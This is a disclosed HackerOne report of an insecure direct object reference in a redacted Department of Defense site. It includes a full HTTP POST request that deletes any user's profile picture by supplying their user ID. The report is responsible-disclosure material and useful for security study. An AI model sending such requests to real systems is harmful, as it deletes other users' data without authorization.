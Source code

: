 # IDOR to delete profile images in https:███████

## Report Details
- **Report ID**: 2213900
- **URL**: https://hackerone.com/reports/2213900
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-10-18T04:23:02.142Z
- **Disclosed**: 2023-12-21T17:42:51.198Z

## Reporter
- **Username**: maskedpersian
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi Team!
When I was testing the  https:█████████/userprofile.aspx discovered that pictures added were being deleted with a get request like so:
```
POST /AJAXUtilities.aspx HTTP/1.1
Host: ████████
Content-Length: 73
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Accept: text/plain, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https:█████████
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https:████/userprofile.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Connection: close

strCall=DeleteProfilePicture&strUserId=72827C83FCED4483B2B1077EA5B0C041

```
strUserId params seemed like a potential IDOR that lead to delete profile picture just with UserId
Poc video attached

## Impact

delete user profiles just using strUserId

## System Host(s)
████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
video attached

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
